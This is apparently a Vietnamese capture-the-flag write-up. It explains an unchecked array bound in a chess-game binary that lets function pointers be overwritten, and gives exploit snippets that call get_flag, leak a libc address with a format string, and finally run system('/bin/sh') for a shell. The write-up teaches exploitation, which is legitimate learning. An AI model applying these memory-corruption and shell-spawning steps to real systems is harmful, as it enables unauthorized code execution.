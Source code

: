 Bài này mình được cung cấp cả source và hint nên việc tìm ra bug cũng không quá khó.

Hint: **Một người chơi có bao nhiêu quân cờ.**

# **BUG**

Xem qua file source, ta thấy struct player được định nghĩa như sau:
```
typedef struct player {
    int nuoc;
    int quan_luc;
    quan_co c[16];
    void (*di)(struct player *);
    void (*trash_talk)(struct player *);
    void (*them_quan)(struct player *, loai_quan_co, char *, mau_quan_co);
} player;
```
Như vậy, mỗi người chơi sẽ có tối đa 16 quân cờ. Tuy nhiên, đoạn code thêm quân phía bên dưới không kiểm tra số lượng quân cờ của người chơi:
```
switch (read_num()) {
            case 1:
                quan = read_quan();
                dan_do = read_dan_do();
                human->them_quan(human, quan, dan_do, ddo);
                printf("- Đã điều động thêm %s.\n", human->c[human->quan_luc-1].string);
                break;
```
```
void them_quan(player* p, loai_quan_co l, char *dan_do, mau_quan_co mau) {
    init_quan_co(&(p->c[p->quan_luc]), l, dan_do, mau);
    p->quan_luc += 1;
}
```
Điều này dẫn đến người chơi có thể nhập nhiều hơn 16 quân cờ và ghi đè được các hàm *di*, *trash_talk* và *them_quan*

# **Exploit**
## Sử dụng hàm get_flag có sẵn:

Do giới hạn của ctf 3 tiếng nên anh ra đề đã cung cấp sẵn 1 hàm *get_flag* để đọc flag.

Để tận dụng hàm này, ta chỉ cần thêm quân 16 lần, sau đó ở lần thứ 17 sẽ thêm 1 quân có giá trị *dan_do* là địa chỉ của hàm *get_flag*.
Khi đó, hàm *di* sẽ bị ghi đè bởi hàm *get_flag*. Sau đó, gọi hàm *di* để lấy flag:
```
        for i in range(16):
                them_quan("xe", "ahuhi")

# use get_flag
        them_quan("noob", p32(get_flag))

        r.sendline("2")
        r.interactive()
```

## Get shell:

Sau khi mình khai thác sử dụng lại hàm get_flag thành công, mình được khuyến khích là thử tìm cách để lấy được shell xem có được không.

Với zer0 kiến thức về khai thác trên heap, mình khá là betak khúc này. Sau đó, mình được anh **@bo8** nói là trong trường hợp này, mình chỉ có thể control được con trỏ lệnh chứ không thể kiểm soát được đối số truyển vào. Do đó, mình phải tìm cách tận dụng lại các đối số này.

Sau một khoảng thời gian bế tắc again, mình có hỏi và nhận được một super hint siêu to khổng lồ từ "ĐẤNG" **@HoàngThắng** là có thể sử dụng *printf* để leak địa chỉ hàm *__libc_start_main* ở trong stack.

OK, có hint super value rồi, triển khai thôi:

### Leak address:

Sau một thời gian tìm trong source code của bài, mình thấy hàm *read_str* có nhiệm vụ đọc chuỗi vào một địa chỉ truyền vào:
```
void read_str(char *buf, unsigned int size) {
    int ret;
    ret = read(0, buf, size);

    if (ret <= 0) {
        puts("read error");
        exit(1);
    }

    buf[ret-1] = '\x00';
}
```
Vì vậy mình có thể tận dụng lại hàm này để lưu formatstring mình cần vào tại địa chỉ của *human*. Sau đó, ghi đè hàm *di* thành hàm *printf* và gọi nó để leak giá trị bên trong stack:

Ở đây, vị trí mình cần leak ra nằm ở vị trí từ 16 trong stack, vậy formatstring cần sử dụng là __%15$p__:

![show_stack](https://github.com/tykawaii/CTF/blob/master/Writeups/uitctf/cokhichtuong/images/stack.PNG)

Và giá trị mình leak ra được là **__libc_start_main + 247** => **Libc base = leak - 247 - __libc_start_main offset**

![leak address](https://github.com/tykawaii/CTF/blob/master/Writeups/uitctf/cokhichtuong/images/leak.PNG)

Sau khi leak và tính toán được các địa chỉ cần thiết, mình sử dụng lại hàm *them_quan* để ghi đè hàm system vào địa chỉ hàm bất kì, ở đây mình chọn hàm *khich_tuong*.

Tuy nhiên, vị trí của các giá trị mình ghi vào có phụ thuộc vào giá trị của biến *quan_luc* trong struct player. Do đó, trước khi thêm quân, mình cần phải sửa lại giá trị này thành 0x10(16):
```
        r.recvuntil("> ")
        r.sendline("2")
        r.sendline("\x00"*4 + "\x10\x00\x00\x00")
```

Sau khi sửa lại giá trị *quan_luc*, thêm 1 quân để ghi đè 2 hàm *di* và hàm *khich_tuong* bằng 2 hàm *read_str* và hàm *system*.

Cuối cùng, để lấy shell, gọi hàm *di* (đã bị ghi đè thành *read_str*) để nhập vào chuỗi "/bin/sh" và gọi *khich_tuong* để thực hiện *system("/bin/sh")*:
```
        r.recvuntil("> ")
        them_quan("noob", p32(read_str)+p32(system))

        r.sendline("2")
        r.sendline("/bin/sh")

        r.recvuntil("> ")
        r.sendline("3")

```
![get_shell](https://github.com/tykawaii/CTF/blob/master/Writeups/uitctf/cokhichtuong/images/final.PNG)

Cảm ơn mọi người đã đọc hết write-up của mình :smile:
